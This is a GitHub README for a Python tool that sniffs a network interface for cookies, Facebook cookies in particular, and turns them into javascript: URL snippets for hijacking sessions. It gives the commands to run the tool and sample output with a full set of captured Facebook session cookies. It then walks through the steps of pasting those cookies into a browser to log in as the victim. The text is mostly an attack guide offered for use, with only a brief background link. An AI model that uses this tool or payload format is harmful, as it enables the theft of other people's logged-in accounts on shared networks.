# Cookie Javascript Injection Sidejacking

This software sniffs any interface for cookies, and generates javascript code that can be injected into any browser, by pasting it into the URL bar.

# Usage

To run the cookieJsInjection open a shell (e.g., bash) and execute the following command (cookieJsInjection requires scapy to run - http://www.secdev.org/projects/scapy/):

`./cookieJsInjection.py IFACE`

Where `IFACE` represents the network interface you wish to sniff on (e.g. eth0, wlan0, etc). 

If you supply the flag `-f`, it will only output facebook cookies, keeping track of the profiles captured in the session, and eliminating duplicate entries:

`./cookieJsInjection.py IFACE -f`

# Example of Facebook sidejacking

1 - Run cookieJsInjection and wait for cookies to appear

`glow:py-cookieJsInjection hiperion$ sudo python cookieJsInjection.py en1 -f

Password:

WARNING: No route found for IPv6 destination :: (no default route?)

- Found cookie for facebook user 798929644:

javascript:void(document.cookie="c_user=798929644");void(document.cookie="wd=1280x616");void(document.cookie="presence=DJ293759043BchADhA_2256.channel_22BsubA_5b1_2c1L798929644A5BF293757419186WMblcMsndPBbloMbvtMctMsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA42V293758371Z416BlcA0AQ");void(document.cookie="cur_max_lag=20");void(document.cookie="act=1293757438495%2F1");void(document.cookie="L=20");void(document.cookie="datr=0fMcTTMFZZVhFiOJZvvO1pyO");void(document.cookie="locale=en_US");void(document.cookie="lu=TA3UCsI0Y6ezY6wydClUpeDw");void(document.cookie="sct=1293787415");void(document.cookie="W=1293757115");void(document.cookie="sid=3");void(document.cookie="xs=1e4d54055dbe34976a93d3a1fe574a19");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%23%2F");void(document.cookie="made_write_conn=1293751415");`

2 - Copy the javascript code (begining with `javascript:`).

3 - Open the browser in facebook.com (make sure you are logged out of any accounts).

4 - Paste the javascript code into the URL bar (press enter)

5 - Go to facebook.com
                                       
# Background
More information on sidejacking - http://en.wikipedia.org/wiki/Session_hijacking